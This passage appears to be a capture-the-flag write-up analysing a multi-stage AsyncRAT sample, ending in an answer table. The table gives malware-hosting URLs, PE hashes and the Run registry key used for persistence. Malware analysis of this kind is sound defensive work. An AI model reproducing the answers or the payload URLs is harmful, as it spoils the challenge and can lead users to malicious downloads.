

`registryKey` is reversed string so reserse it 1 more time, we will have the answer





#### Question 6: Your analysis doesn't stop at the second stage; the malware has more secrets to unveil. A third stage is downloaded from a URL you need to uncover. What is the URL from which the malware downloads the third stage?



`address`: URL of downloading, is reversed string so reserse it 1 more time, we will have the answer



#### Question 7: With the third stage of AsyncRAT now in focus, another Portable Executable (PE) comes to light. For a comprehensive understanding of this stage, what is the MD5 hash of the extracted PE from the third stage?

We see that this code use the same technique as previous stage. So do the same, we will get the 2nd PE









### Final Answer

| Question | Answer |
|---|----|
| Question 1 | `Codigo` | 
| Question 2 | `https://gcdnb.pbrd.co/images/rYspxkzT3K6k.png` | 
| Question 3 | `<<BASE64_START>>` |
| Question 4 | `C1AA076CA869A7520CA2E003B7C02AB3` |
| Question 5 | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`|
| Question 6 | `https://web.archive.org/web/20240701132151if_/https://gcdnb.pbrd.co/images/L3GM1EngRrYs.png` |
| Question 7 | `3C63488040BB51090F2287418B3D157D` |